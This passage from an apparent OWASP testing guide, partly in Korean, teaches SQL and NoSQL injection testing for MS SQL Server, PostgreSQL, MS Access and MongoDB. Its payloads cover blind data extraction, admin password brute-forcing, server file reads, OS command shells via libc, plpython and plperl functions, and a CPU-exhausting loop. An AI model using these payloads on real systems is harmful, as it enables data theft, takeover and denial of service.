This query will wait for 5 seconds if bit '@bit' of byte '@byte' of the name of the current database is 1, and will return at once if it is 0. Nesting two cycles (one for @byte and one for @bit) we will we able to extract the whole piece of information. 

However, it might happen that the command waitfor is not available (e.g., because it is filtered by an IPS/web application firewall). This doesn't mean that blind SQL injection attacks cannot be done, as the pen tester should only come up with any time consuming operation that is not filtered. For example 

.. code-block:: html

    declare @i int select @i = 0 
    while @i < 0xaffff begin 
    select @i = @i + 1 
    end 

|

Checking for version and vulnerabilities 
--------------------------------------------------------------------------------------------

The same timing approach can be used also to understand which version of SQL Server we are dealing with. Of course we will leverage the built-in @@version variable. Consider the following query: 

.. code-block:: html

    select @@version 

OnSQL Server 2005, it will return something like the following: 

.. code-block:: html

    Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) Oct 14 
    2005 00:33:37 <snip> 

The '2005' part of the string spans from the 22nd to the 25th character. Therefore, one query to inject can be the following: 

.. code-block:: html

    if substring((select @@version),25,1) = 5 waitfor delay 
    '0:0:5' 

Such query will wait 5 seconds if the 25th character of the @@version variable is '5', showing us that we are dealing with a SQL Server 2005. If the query returns immediately, we are probably dealing with SQL Server 2000, and another similar query will help to clear all doubts. 

|

Example 9: bruteforce of sysadmin password 
--------------------------------------------------------------------------------------------

To bruteforce the sysadmin password, we can leverage the fact that OPENROWSET needs proper credentials to successfully perform the connection and that such a connection can be also "looped" to the local DB Server. Combining these features with an inferenced injection based on response timing, we can inject the following code: 

.. code-block:: html

    select * from OPENROWSET('SQLOLEDB','';'sa';'<pwd>','select 
    1;waitfor delay ''0:0:5'' ') 

What we do here is to attempt a connection to the local database (specified by the empty field after 'SQLOLEDB') using "sa" and "<pwd>" as credentials. If the password is correct and the connection is successful, the query is executed, making the DB wait for 5 seconds (and also returning a value, since OPENROWSET expects at least one column). Fetching the candidate passwords from a wordlist and measuring the time needed for each connection, we can attempt to guess the correct password. In "Data-mining with SQL Injection and Inference", David Litchfield pushes this technique even further, by injecting a piece of code in order to brute-force the sysadmin password using the CPU resources of the DB Server itself. 
Once we have the sysadmin password, we have two choices: 
. 
Inject all following queries using OPENROWSET, in order to use sysadmin privileges 

. 
Add our current user to the sysadmin group using sp_addsrvrolemember. The current user name can be extracted using inferenced injection against the variable system_user. 


Remember that OPENROWSET is accessible to all users on SQL Server 2000 but it is restricted to administrative accounts on SQL Server 2005. 

|

Tools 
============================================================================================

- Francois Larouche: Multiple DBMS SQL Injection tool - [SQL Power Injector] 
- Northern Monkee: [Bobcat] 
- icesurfer: SQL Server Takeover Tool - [sqlninja] 
- Bernardo Damele A. G.: sqlmap, automatic SQL injection tool -http://sqlmap.org/ 


|

References 
============================================================================================

Whitepapers 
--------------------------------------------------------------------------------------------

- David Litchfield: "Data-mining with SQL Injection and Inference": http://www.databasesecurity.com/webapps/sqlinference.pdf 
- Chris Anley, "(more) Advanced SQL Injection": http://www.encription.co.uk/downloads/more_advanced_sql_injection.pdf 
- Steve Friedl's Unixwiz.net Tech Tips: "SQL Injection Attacks by Example" - http://www.unixwiz.net/techtips/sql-injection.html 
- Alexander Chigrik: "Useful undocumented extended stored procedures" - http://www.mssqlcity.com/Articles/Undoc/ UndocExtSP.htm 
- Antonin Foller: "Custom xp_cmdshell, using shell object": http://www.motobit.com/tips/detpg_cmdshell
- Paul Litwin: "Stop SQL Injection Attacks Before They Stop You": http://msdn.microsoft.com/en-us/magazine/cc163917.aspx 
- SQL Injection -http://msdn2.microsoft.com/en-us/library/ms161953.aspx 
- Cesar Cerrudo: Manipulating Microsoft SQL Server Using SQL Injection -http://www.appsecinc.com/presentations/ Manipulating_SQL_Server_Using_SQL_Injection.pdf uploading files, getting into internal network, port scanning, DOS 

|

|

============================================================================================
OWASP Backend Security Project Testing PostgreSQL
============================================================================================

개요
============================================================================================

In this section, some SQL Injection techniques for PostgreSQL will be discussed. These techniques have the following characteristics: 


- PHP Connector allows multiple statements to be executed by using ; as a statement separator 
- SQL Statements can be truncated by appending the comment char: --. 
- LIMIT and OFFSET can be used in a SELECT statement to retrieve a portion of the result set generated by the query 


From now on it is assumed that http://www.example.com/news. php?id=1 is vulnerable to SQL Injection attacks. 

|

테스트 방법
============================================================================================

Identifying PostgreSQL 
--------------------------------------------------------------------------------------------

When a SQL Injection has been found, you need to carefully fingerprint the backend database engine. You can determine that the backend database engine is PostgreSQL by using the :: cast operator. 

**예제**

In addition, the function version() can be used to grab the PostgreSQL banner. This will also show the underlying operating system type and version. 

.. code-block:: console

    http://www.example.com/store.php?id=1 AND 1::int=1

An example of a banner string that could be returned is: 

.. code-block:: console

    PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc 
    (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)


Blind Injection 
--------------------------------------------------------------------------------------------

For blind SQL injection attacks, you should take into consideration the following built-in functions: 

- 문자열 길이

.. code-block:: console
    
    LENGTH(str) 

- 주어진 문자열로 부터 부분 문자 추출

.. code-block:: console

    SUBSTR(str,index,offset) 

- String representation with no single quotes 

.. code-block:: console

    CHR(104)||CHR(101)||CHR(108)||CHR(108)||CHR(111) 

Starting at version 8.2, PostgreSQL introduced a built-in function, pg_sleep(n), to make the current session process sleep for n seconds.
This function can be leveraged to execute timing attacks (discussed in detail at Blind SQL Injection). 
In addition, you can easily create a custom pg_sleep(n) in previous versions by using libc: 

- CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT 

Single Quote unescape 
--------------------------------------------------------------------------------------------

Strings can be encoded, to prevent single quotes escaping, by using chr() function. 

- chr(n): Returns the character whose ASCII value corresponds to the number n 
- ascii(n): Returns the ASCII value which corresponds to the character n 

Let's say you want to encode the string 'root': 

.. code-block:: console

    select ascii('r')
    114
    select ascii('o')
    111
    select ascii('t')
    116 

We can encode 'root' as: 

.. code-block:: console

    chr(114)||chr(111)||chr(111)||chr(116)

**예제**

.. code-block:: console
  
    http://www.example.com/store.php?id=1; UPDATE users 
    SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--

Attack Vectors 
============================================================================================

Current User 
--------------------------------------------------------------------------------------------

The identity of the current user can be retrieved with the following SQL SELECT statements: 

.. code-block:: html

    SELECT user
    SELECT current_user
    SELECT session_user
    SELECT usename FROM pg_user
    SELECT getpgusername()

**예제**

.. code-block:: html

    http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
    http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--

|

Current Database 
--------------------------------------------------------------------------------------------

The built-in function current_database() returns the current database name. 

**예제**

.. code-block:: html

    http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL-

|

Reading from a file 
--------------------------------------------------------------------------------------------

PostgreSQL provides two ways to access a local file: 
 
- COPY statement 
- pg_read_file() internal function (starting from PostgreSQL 8.1) 


COPY: 
This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the postgres user. 

**예제**

.. code-block:: html

    /store.php?id=1; CREATE TABLE file_store(id serial, data text)--
    /store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--

Data should be retrieved by performing a UNION Query SQL Injection: 
 
- retrieves the number of rows previously added in file_store with COPY statement 
- retrieves a row at a time with UNION SQL Injection 

**예제**

    /store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
    /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
    /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
    ... 
    ... 
    /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--

g_read_file(): 

This function was introduced in PostgreSQL 8.1 and allows one to read arbitrary files located inside DBMS data directory. 

**예제**

.. code-block:: html

    SELECT pg_read_file('server.key',0,1000); 

|

Writing to a file 
--------------------------------------------------------------------------------------------

By reverting the COPY statement, we can write to the local file system with the postgres user rights 

.. code-block:: html

    /store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--

|

Shell Injection 
--------------------------------------------------------------------------------------------

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl. 

|

Dynamic Library 
--------------------------------------------------------------------------------------------

Until PostgreSQL 8.1, it was possible to add a custom function linked with libc: 

- CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc. so.6', 'system' LANGUAGE 'C' STRICT 

Since system returns an int how we can fetch results from system stdout? 

Here's a little trick: 

1. create a stdout table 

.. code-block:: html

    CREATE TABLE stdout(id serial, system_out text) 
2. executing a shell command redirecting its stdout 

.. code-block:: html

    SELECT system('uname -a > /tmp/test') 

3. use a COPY statements to push output of previous command in stdout table 

.. code-block:: html

    COPY stdout(system_out) FROM '/tmp/test' 

4. retrieve output from stdout 

.. code-block:: html

    SELECT system_out FROM stdout 

**예제**

.. code-block:: html

    /store.php?id=1; CREATE TABLE stdout(id serial, system_out text)--
    /store.php?id=1; CREATE FUNCTION system(cstring) RE
    TURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C' 
    STRICT--
    /store.php?id=1; SELECT system('uname -a > /tmp/test')--
    /store.php?id=1; COPY stdout(system_out) FROM '/tmp/ 
    test'--
    /store.php?id=1 UNION ALL SELECT NULL,(SELECT sys
    tem_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 
    OFFSET 1--

|

plpython 
--------------------------------------------------------------------------------------------

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by CREATELANG 

1. Check if PL/Python has been enabled on a database: 


.. code-block:: html

    SELECT count(*) FROM pg_language WHERE lanname='plpythonu' 

2. If not, try to enable: 


.. code-block:: html

    CREATE LANGUAGE plpythonu 

3. If either of the above succeeded, create a proxy shell function: 


.. code-block:: html

    CREATE FUNCTION proxyshell(text) RETURNS text 
    AS 'import os; return os.popen(args[0]).read() 
    'LANGUAGE plpythonu;--

4. Have fun with: 

.. code-block:: html

    SELECT proxyshell(os command); 

**예제**

1. Create a proxy shell function: 

- /store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read()' LANGUAGE plpythonu;-- 

Since system returns an int how we can fetch results from system

2. Run an OS Command: 

- /store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;-- 

|

plperl
--------------------------------------------------------------------------------------------

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as open. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the postgres user, to avoid the so-called application mask filtering of trusted/untrusted operations. 


1. Check if PL/perl-untrusted has been enabled: 

- SELECT count(*) FROM pg_language WHERE lanname='plperlu' 

2. If not, assuming that sysadm has already installed the plperl package, try : 

- CREATE LANGUAGE plperlu 

3. If either of the above succeeded, create a proxy shell function: 

- CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu 

4. Have fun with: 

- SELECT proxyshell(os command); 

|

**예제**

1. Create a proxy shell function: 

- /store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu; 


2. Run an OS Command: 

- /store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;-- 

|

References 
============================================================================================

- OWASP : "Testing for SQL Injection" 
- OWASP : SQL Injection Prevention Cheat Sheet 
- PostgreSQL : "Official Documentation": http://www.postgresql.org/docs/
- Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injec tion tool: http://sqlmap.sourceforge.net 

|

|

============================================================================================
Testing for MS Access
============================================================================================


개요
============================================================================================

As explained in the generic SQL injection section, SQL injection vulnerabilities occur whenever user-supplied input is used during the construction of a SQL query without being adequately constrained or sanitized. This class of vulnerabilities allows an attacker to execute SQL code under the privileges of the user that is used to connect to the database. In this section, relevant SQL injection techniques that utilize specific features of Microsoft Access will be discussed. 

|

테스트 방법
============================================================================================

핑거프린팅
--------------------------------------------------------------------------------------------

Fingerprinting the specific database technology while testing SQL-powered application is the first step to properly asses potential vulnerabilities. A common approach involves injecting standard SQL injection attack patterns (e.g. single quote, double quote, ...) in order to trigger database exceptions. Assuming that the application does not handle exceptions with custom pages, it is possible to fingerprint the underline DBMS by observing error messages. 
Depending on the specific web technology used, MS Access driven applications will respond with one of the following errors: 

.. code-block:: html

    Fatal error: Uncaught exception 'com_exception' with mes
    sage Source: Microsoft JET Database Engine 

or 

.. code-block:: html

    Microsoft JET Database Engine error '80040e14' 

.. code-block:: html

    or Microsoft Office Access Database Engine 

In all cases, we have a confirmation that we're testing an application using MS Access database. 

|

기본 테스트
--------------------------------------------------------------------------------------------

Unfortunately, MS Access doesn't support typical operators that are traditionally used during SQL injection testing, including: 

- No comments characters 
- No stacked queries 
- No LIMIT operator 
- No SLEEP or BENCHMARK alike operators 
- and many others 


Nevertheless, it is possible to emulate those functions by combining multiple operators or by using alternative techniques. As mentioned, it is not possible to use the trick of inserting the characters /*, -- or # in order to truncate the query. However, we can fortunately bypass this limitation by injecting a 'null' character. Using a null byte %00 within a SQL query results in MS Access ignoring all remaining characters. This can be explained by considering that all strings are NULL terminated in the internal representation used by the database. It is worth mentioning that the 'null' character can sometimes cause troubles too as it may truncate strings at the web server level. In those situations, we can however employ another character: 0x16 (%16 in URL encoded format). 

Considering the following query: 

.. code-block:: html

    SELECT [username],[password] FROM users WHERE [user
    name]='$myUsername' AND [password]='$myPassword' 

We can truncate the query with the following two URLs: 

.. code-block:: html

    http://www.example.com/page.asp?user=admin'%00&
    pass=foo 
    http://www.example.com/page.app?user=admin'%16&
    pass=foo 

The LIMIT operator is not implemented in MS Access, however it is possible to limit the number of results by using the TOP or LAST operators instead. 

.. code-block:: html

    http://www.example.com/page.app?id=2'+UNION+SE
    LECT+TOP+3+name+FROM+appsTable%00 

By combining both operators, it is possible to select specific re
sults. String concatenation is possible by using & (%26) and + (%2b) 
characters. 

There are also many other functions that can be used while testing SQL injection, including but not limited to: 

- ASC: Obtain the ASCII value of a character passed as input 
- CHR: Obtain the character of the ASCII value passed as input 
- LEN: Return the length of the string passed as parameter 
- IIF: Is the IF construct, for example the following statement IIF(1=1, 'a', 'b') return 'a' 
- MID: This function allows you to extract substring, for example the following statement mid('abc',1,1) return 'a' 
- TOP: This function allows you to specify the maximum number of results that the query should return from the top. For example TOP 1 will return only 1 row. 
- LAST: This function is used to select only the last row of a set of rows. For example the following query SELECT last(*) FROM users will return only the last row of the result. 


Some of these operators are essential to exploit blind SQL injections. For other advanced operators, please refer to the documents in the references. 

|

Attributes Enumeration 
--------------------------------------------------------------------------------------------

In order to enumerate the column of a database table, it is possible to use a common error-based technique. In short, we can obtain the attributes name by analyzing error messages and repeating the query with different selectors. For example, assuming that we know the existence of a column, we can also obtain the name of the remaining attributes with the following query: 

.. code-block:: html

    ' GROUP BY Id%00 

In the error message received, it is possible to observe the name of the next column. At this point, we can iterate the method until we obtain the name of all attributes. If we don't know the name of the first attribute, we can still insert a fictitious column name and obtain the name of the first attribute within the error message. 
Obtaining Database Schema 
Various system tables exist by default in MS Access that can be potentially used to obtain table names and columns. Unfortunately, in the default configuration of recent MS Access database releases, these tables are not accessible. Nevertheless, it is always worth trying: 

- MSysObjects 
- MSysACEs 
- MSysAccessXML 

For example, if a union SQL injection vulnerability exists, you can use the following query: 

.. code-block:: html

    ' UNION SELECT Name FROM MSysObjects WHERE Type = 1%00 

Alternatively, it is always possible to bruteforce the database schema by using a standard wordlist (e.g. FuzzDb). 

In some cases, developers or system administrators do not realize that including the actual .mdb file within the application webroot can allow to download the entire database. Database filenames can be inferred with the following query: 

.. code-block:: html

    http://www.example.com/page.app?id=1'+UNION+SELECT+1+FROM+name.table%00 

where name is the .mdb filename and table is a valid database table. In case of password protected databases, multiple software utilities can be used to crack the password. Please refer to the references. 


|

Blind SQL Injection Testing 
============================================================================================

Blind SQL Injection vulnerabilities are by no means the most easily exploitable SQL injections while testing real-life applications. In case of recent versions of MS Access, it is also not feasible to execute shell commands or read/write arbitrary files. 
In case of blind SQL injections, the attacker can only infer the result of the query by evaluating time differences or application responses. It is supposed that the reader already knows the theory behind blind SQL injection attacks, as the remaining part of this section will focus on MS Access specific details. 
The following example is used: 

.. code-block:: html

    http://www.example.com/index.php?myId=[sql] 

where the id parameter is used within the following query: 

.. code-block:: html

    SELECT * FROM orders WHERE [id]=$myId 

Let's consider the myId parameter vulnerable to blind SQL injection. As an attacker, we want to extract the content of column 'username' in the table 'users', assuming that we have already disclosed the database schema. 
A typical query that can be used to infer the first character of the user-name of the 10th rows is: 

.. code-block:: html

    http://www.example.com/index.php?id=IIF((select%20 
    MID(LAST(username),1,1)%20from%20(select%20TOP%20 
    10%20username%20from%20users))='a',0,'no') 

If the first character is 'a', the query will return 0 or otherwise the string 'no'. 
By using a combination of the IFF, MID, LAST and TOP functions, it is possible to extract the first character of the username on a specifically selected row. As the inner query returns a set of records, and not just one, it is not possible to use it directly. Fortunately, we can combine multiple functions to extract a specific string. 


Let's assume that we want to retrieve the username of the 10th row. First, we can use the TOP function to select the first ten rows using the following query: 

.. code-block:: html

    SELECT TOP 10 username FROM users

Then, using this subset, we can extract the last row by using the LAST function. Once we have only one row and exactly the row containing our string, we can use the IFF, MID and LAST functions to infer the actual value of the username. In our example, we employ IFF to return a number or a string. Using this trick, we can distinguish whether we have a true response or not, by observing application error responses. As id is numeric, the comparison with a string results in a SQL error that can be potentially leaked by 500 Internal Server Error pages. Otherwise, a standard 200 OK page will be likely returned. For example, we can have the following query: 

.. code-block:: html

    http://www.example.com/index.php?id='%20AND%20 
    1=0%20OR%20'a'=IIF((select%20MID(LAST(user
    name),1,1)%20from%20(select%20TOP%2010%20user
    name%20from%20users))='a','a','b')%00 

that is TRUE if the first character is 'a' or false otherwise. 
As mentioned, this method allows to infer the value of arbitrary strings within the database: 

1. By trying all printable values, until we find a match 
2. By inferring the length of the string using the LEN function, or by simply stopping after we have found all characters 

Time-based blind SQL injections are also possible by abusing heavy queries. 

|

References 
============================================================================================

- http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html 
- http://packetstormsecurity.com/files/65967/Access-ThroughAccess.pdf.html 
- http://seclists.org/pen-test/2003/May/74 
- http://www.techonthenet.com/access/functions/index_ alpha.php 
- http://en.wikipedia.org/wiki/Microsoft_Access 


|

|

============================================================================================
NoSQL 인젝션 테스트
============================================================================================

개요 
============================================================================================

NoSQL databases provide looser consistency restrictions than traditional SQL databases. 
By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax. Because these NoSQL injection attacks may execute within a procedural[1] language , rather than in the declarative[2] SQL language, the potential impacts are greater than traditional SQL injection. 

NoSQL database calls are written in the application's programming language, a custom API call, or formatted according to a common convention (such as XML, JSON, LINQ, etc). Malicious input targeting those specifications may not trigger the primarily application sanitization checks. For example, filtering out common HTML special characters such as < > & ; will not prevent attacks against a JSON API, where special characters include / { } : . 

There are now over 150 NoSQL databases available[3] for use within an application, providing APIs in a variety of languages and relationship models. Each offers different features and restrictions. Because there is not a common language between them, example injection code will not apply across all NoSQL databases. For this reason, anyone testing for NoSQL injection attacks will need to familiarize themselves with the syntax, data model, and underlying programming language in order to craft specific tests. 

NoSQL injection attacks may execute in different areas of an application than traditional SQL injection. Where SQL injection would execute within the database engine, NoSQL variants may execute during within the application layer or the database layer, depending on the NoSQL API used and data model. Typically NoSQL injection attacks will execute where the attack string is parsed, evaluated, or concatenated into a NoSQL API call. 

Additional timing attacks may be relevant to the lack of concurrency checks within a NoSQL database. These are not covered under injection testing. At the time of writing MongoDB is the most widely used NoSQL database, and so all examples will feature MongoDB APIs. 

|

테스트 방법
============================================================================================

MongoDB에 NoSQL 인젝션 취약점 테스트
--------------------------------------------------------------------------------------------

MongoDB에서 가장 일반적으로 사용되는 API 호출은 임의 자바스크립트 입력을 허용하는 $where 연산자입니다.
$where 연산자는 일반적으로 간단한 필터 또는 확인에 사용됩니다.

.. code-block:: javascript
 
    db.myCollection.find(
    {
        $where: "this.credits == this.debits"
    }
    ); 

아래와 같은 자바스크립트 함수 형식으로도 사용 가능합니다.

.. code-block:: javascript

    db.myCollection.find(
    {
        $where: function()
                {
                    return obj.credits-obj.debits < 0;
                }
    }
    ); 

|

예제 1 
--------------------------------------------------------------------------------------------

만약 공격자가 $where 연산자 내에 데이터를 조작할 수 있다면, 공격자는 MongoDB 쿼리 부분에 임의의 
자바스크립트를 삽입할 수 있습니다.
사용자 입력에 대한 필터 없이 MongoDB 쿼리가 직접 전달될 경우 다음 코드처럼 노출됩니다.

.. code-block:: javascript

    b.myCollection.find(
    {
        active: true, 
        $where: function()
                {
                    return obj.credits-obj.debits < $userInput;
                }
    }
    );

MongoDB에서는 아래와 같은 특수문자를 통해 구문을 우회하여 공격에 성공할 수 있습니다.

.. code-block:: html

    ' " \ ; { } 

일반적인 SQL 인젝션과 마찬가지로 임의로 데이터를 조작하는 SQL 명령을 실행할 수 있습니다.
또한, 자바스크립트 언어가 가능하기 때문에 데이터 조작 뿐만 아니라 임의의 코드 실행이 가능합니다.

[입력 값]

.. code-block:: javascript

    0;var date=new Date(); do{curDate = new Date();} while(curDate-date<10000)

위 입력 값을 $userInput에 입력하게 되면 아래와 같이 자바스크립트 함수가 실행되게 됩니다.
이 공격 문자열은 전체 MongoDB 인스턴스를 10초 동안 100%의 CPU 사용률으로 실행되게 합니다.

.. code-block:: html

    function()
    {
        return obj.credits-obj.debits < 0;
        var date=new Date();
        do{curDate = new Date();}
        while(curDate-date < 10000);
    } 

|

예제 2 
--------------------------------------------------------------------------------------------

쿼리 내에서 사용되는 입력을 완전히 필터링 또는 파라미터화 된 경우라도, NoSQL 인젝션을 유발할 수있는 대체 경로가 있습니다.
대부분의 NoSQL 인스턴스는 어플리케이션 프로그래밍 언어와 무관하게 자신의 소유 변수 이름을 갖고 있습니다.

예를 들어, MongoDB의 경우 $where 구문이라는 자신의 소유 변수가 있습니다. 

It needs to be passed into the query exactly as shown; any alteration would cause a database error. However, because $where is also a valid PHP variable name, it may be possible for an attacker to insert code into the query by creating a PHP variable named $where. The PHP MongoDB documentation explicitly warns developers: 

.. code-block:: console

    Please make sure that for all special query operators (starting with $) you use single quotes so that PHP doesn't try to replace "$exists" with the value of the variable $exists. 

Even if a query depended on no user input, such as the following example, an attacker could exploit MongoDB by replacing the operator with malicious data. 

.. code-block:: console

    db.myCollection.find(
    {
        $where: function()
                {
                    return obj.credits-obj.debits < 0;
                }
    }
    ); 

잠재적으로 PHP 변수로 데이터를 할당하는 한가지 방법은 HTTP 파라미터 감염을 이용하는 것입니다. (HTTP 파라미터 감염 침투 테스트(OTG-INPVAL-004)). 
파라미터 감염을 통해 $where라는 변수를 생성할 수 있다면, 유효하지 않은 쿼리를 통해 MongoDB 에러를 트리거할 수 있습니다.

[입력 값]

.. code-block:: console

    $where: function() 
    {
        //arbitrary JavaScript here
    }

|

References 
============================================================================================

Whitepapers 
--------------------------------------------------------------------------------------------

- Bryan Sullivan from Adobe: "Server-Side JavaScript Injection": https://media.blackhat.com/bh-us-11/Sullivan/BH_US_11_Sullivan_Server_Side_WP.pdf 
- Bryan Sullivan from Adobe: "NoSQL, But Even Less Security": http://blogs.adobe.com/asset/files/2011/04/NoSQL-ButEven-Less-Security.pdf 
- Erlend from Bekk Consulting: "[Security] NOSQL-injection": http://erlend.oftedal.no/blog/?blogid=110
- Felipe Aragon from Syhunt: "NoSQL/SSJS Injection": http://www.syhunt.com/?n=Articles.NoSQLInjection
- MongoDB Documentation: "How does MongoDB address SQL or Query injection?": http://docs.mongodb.org/manual/ faq/developers/#how-does-mongodb-address-sql-or-queryinjection
- PHP Documentation: "MongoCollection::find": http://php.net/manual/en/mongocollection.find.php
- "Hacking NodeJS and MongoDB": http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html 
- "Attacking NodeJS and MongoDB": http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html 

|